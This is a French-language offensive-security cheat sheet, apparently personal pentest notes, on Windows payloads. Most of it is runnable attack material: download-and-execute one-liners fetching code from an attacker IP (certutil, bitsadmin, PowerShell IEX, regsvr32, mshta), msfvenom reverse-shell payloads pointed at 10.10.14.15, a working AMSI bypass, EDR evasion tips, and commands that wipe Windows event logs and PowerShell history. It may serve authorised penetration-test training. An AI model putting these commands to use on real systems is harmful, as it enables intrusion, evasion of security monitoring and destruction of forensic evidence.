

Ce document détaille les méthodologies de gestion des payloads Windows, incluant les formats, les vecteurs de transfert et les techniques d'exécution. Ces concepts sont étroitement liés aux techniques de **Windows Privilege Escalation**, **PowerShell for Pentesters**, **Evasion Techniques** et **File Transfer Methods**.



## Types de Payloads et Formats

| Format | Extension | Usage principal | Outils recommandés |
| :--- | :--- | :--- | :--- |
| EXE | `.exe` | Binaire exécutable Windows | **msfvenom**, C++, Empire |
| DLL | `.dll` | Injection, Hijack (LoadLibrary) | **msfvenom -f dll**, **donut**, sRDI |
| BAT | `.bat` | Script DOS automatisé | Code batch classique (cmd) |
| PS1 | `.ps1` | Script PowerShell | **Invoke-PowerShellTcp**, Nishang |
| VBS | `.vbs` | Script Visual Basic | **mshta.exe**, **wscript.exe** |
| MSI | `.msi` | Package d’installation Windows | **msfvenom -f msi**, **msiexec** |
| HTA | `.hta` | HTML + script Windows (web drive-by) | **msfvenom -f hta-psh** |

## Méthodes de Transfert de Payload

| Méthode | Commande cible Windows | Pré-requis / Remarques |
| :--- | :--- | :--- |
| HTTP (Python) | `certutil -urlcache -split -f http://IP/payload.exe` | Pas bloqué en sortie, utile contre Defender |
| PowerShell | `IEX (New-Object Net.WebClient).DownloadString('http://IP/payload.ps1')` | Shell direct depuis un PS1 |
| Bitsadmin | `bitsadmin /transfer badjob /download /priority foreground http://IP/payload.exe C:\Temp\p.exe` | Plus discret (bypass Defender partiel) |
| Invoke-WebRequest | `iwr http://IP/payload.exe -OutFile C:\Temp\p.exe` | Disponible à partir de PowerShell v3 |
| SMB (Impacket) | `smbserver.py share /tmp/` + `\\IP\share\payload.exe` | **Impacket** requis côté attaquant |
| FTP | `ftp -i -s:cmd.txt IP` | FTP actif côté attaquant (vsftpd, pyftpdlib…) |

> [!danger]
> L'utilisation de **certutil** peut être détectée par les EDR modernes via le monitoring des processus enfants.

> [!warning]
> Le choix du port (ex: 443) est critique pour contourner les règles de filtrage firewall sortant.

## Living off the Land Binaries (LoLBins) pour l'exécution

L'utilisation de binaires légitimes signés par Microsoft permet de contourner les politiques d'exécution (AppLocker/WDAC).

*   **Csc.exe** : Compiler du code C# à la volée.
    ```cmd
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out:payload.exe payload.cs
    ```
*   **InstallUtil.exe** : Exécuter du code managé via des classes d'installation.
    ```cmd
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U payload.exe
    ```
*   **Regsvr32.exe** : Exécuter des DLLs via des fichiers .sct (COM Scriptlet).
    ```cmd
    regsvr32 /s /u /i:http://IP/file.sct scrobj.dll
    ```

## Techniques de bypass AMSI

L'AMSI (Antimalware Scan Interface) inspecte le contenu des scripts en mémoire. Le bypass consiste à patcher la fonction `AmsiScanBuffer` en mémoire.

*   **Patch mémoire (PowerShell)** :
    ```powershell
    $a = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
    $b = $a.GetField('amsiInitFailed','NonPublic,Static')
    $b.SetValue($null,$true)
    ```
*   **Obfuscation dynamique** : Utiliser des techniques de concaténation de chaînes ou de XOR pour éviter la signature statique des payloads.

## Stratégies d'évasion EDR/AV avancées

*   **Process Hollowing / Injection** : Injecter le payload dans un processus légitime (ex: `explorer.exe`, `svchost.exe`) pour masquer l'activité réseau.
*   **PPID Spoofing** : Lancer un processus enfant en usurpant son parent pour tromper l'analyse comportementale.
*   **Direct Syscalls** : Appeler les fonctions API Windows directement (via assembly) pour éviter les hooks placés par les EDR dans les DLLs système (ex: `ntdll.dll`).

## Gestion des sessions (Listener setup)

La réception du payload nécessite un listener configuré pour gérer le protocole de communication.

*   **Metasploit (Multi/Handler)** :
    ```bash
    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_tcp
    set LHOST 10.10.14.15
    set LPORT 443
    run
    ```
*   **Netcat (Simple shell)** :
    ```bash
    nc -lvnp 443
    ```

## Commandes d’Exécution sur la cible

### EXE
```cmd
start payload.exe
```

### PS1
```powershell
powershell -ExecutionPolicy Bypass -File script.ps1
# ou
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://IP/script.ps1')"
```

> [!warning]
> L'exécution de scripts PowerShell avec **-ExecutionPolicy Bypass** est souvent loggée par le Script Block Logging.

### BAT
```cmd
start script.bat
```

### MSI
```cmd
msiexec /quiet /qn /i payload.msi
```

### DLL (Injection)
```cmd
rundll32.exe payload.dll,EntryPoint
```

### HTA / VBS
```cmd
mshta.exe http://IP/payload.hta
# ou
wscript.exe payload.vbs
```

## Exemples MSFVenom

### EXE Reverse TCP (Windows)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f exe > rev.exe
```

### DLL (Injectable)
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f dll > rev.dll
```

### BAT Reverse Shell
```bash
echo powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.15/shell.ps1')" > rs.bat
```

### HTA PowerShell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f hta-psh > payload.hta
```

> [!danger]
> L'utilisation de **msfvenom** brut est fortement déconseillée en environnement réel sans obfuscation préalable.

## Nettoyage de traces (Post-Exploitation)

Il est impératif de supprimer les artefacts créés pour éviter la détection forensique.

1.  **Suppression des fichiers** :
    ```cmd
    del /f /q C:\Temp\payload.exe
    ```
2.  **Nettoyage des logs d'événements** :
    ```powershell
    wevtutil cl System
    wevtutil cl Security
    wevtutil cl Application
    ```
3.  **Effacement de l'historique PowerShell** :
    ```powershell
    Remove-Item (Get-PSReadlineOption).HistorySavePath
    ```

## Tips Anti-Detection

| Technique | Description |
| :--- | :--- |
| **-e x86/shikata_ga_nai** | Encoder polymorphique Metasploit |
| **Invoke-Obfuscation** | Obfuscation de scripts PowerShell |
| Compilation C#/donut/sRDI | Charger payloads sans écrire sur disque |
| **-f msi** ou **-f hta** | Formes moins détectées par certains AV |
| packers + PEscrambler | Emballer un EXE avec un stub aléatoire |